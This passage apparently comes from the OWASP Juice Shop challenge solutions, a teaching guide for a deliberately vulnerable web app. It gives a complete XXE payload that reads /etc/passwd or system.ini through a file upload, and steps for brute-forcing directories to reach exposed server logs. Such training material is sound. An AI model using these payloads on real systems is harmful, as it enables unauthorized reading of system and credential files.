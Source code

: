 ### Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server

1. Solve the
   [Use a deprecated B2B interface that was not properly shut down](#use-a-deprecated-b2b-interface-that-was-not-properly-shut-down)
   challenge.
2. Prepare an XML file which defines and uses an external entity
   `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe
   SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
3. Upload this file through the _File Complaint_ dialog and observe the
   Javascript console while doing so. It should give you an error
   message containing the parsed XML, including the contents of the
   local system file!

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<trades>
    <metadata>
        <name>Apple Juice</name>
        <trader>
            <foo>&xxe;</foo>
            <name>B. Kimminich</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Lemon Juice</name>
        <trader>
            <name>B. Kimminich</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
```

## ⭐⭐⭐⭐ Challenges

### Gain access to any access log file of the server

1. Solve the
   [Access a confidential document](#access-a-confidential-document) or
   any related challenges which will bring the exposed `/ftp` folder to
   your attention.
2. Visit <http://localhost:3000/ftp> and notice the file
   `incident-support.kdbx` which is needed for
   [Log in with the support team's original user credentials](../part2/security-misconfiguration.md#log-in-with-the-support-teams-original-user-credentials)
   and indicates that some support team is performing its duties from
   the public Internet and possibly with VPN access.
3. Guess luckily or run a brute force attack with e.g.
   [OWASP ZAPs DirBuster plugin](https://github.com/zaproxy/zap-extensions/tree/beta/src/org/zaproxy/zap/extension/bruteforce)
   for a possibly exposed directory containing the log files.
4. Following
   [the hint to drill down deeper than one level](../part2/sensitive-data-exposure.md#gain-access-to-any-access-log-file-of-the-server),
   you will at some point end up with
   <http://localhost:3000/support/logs>.
5. Inside you will find at least one `access.log` of the current day.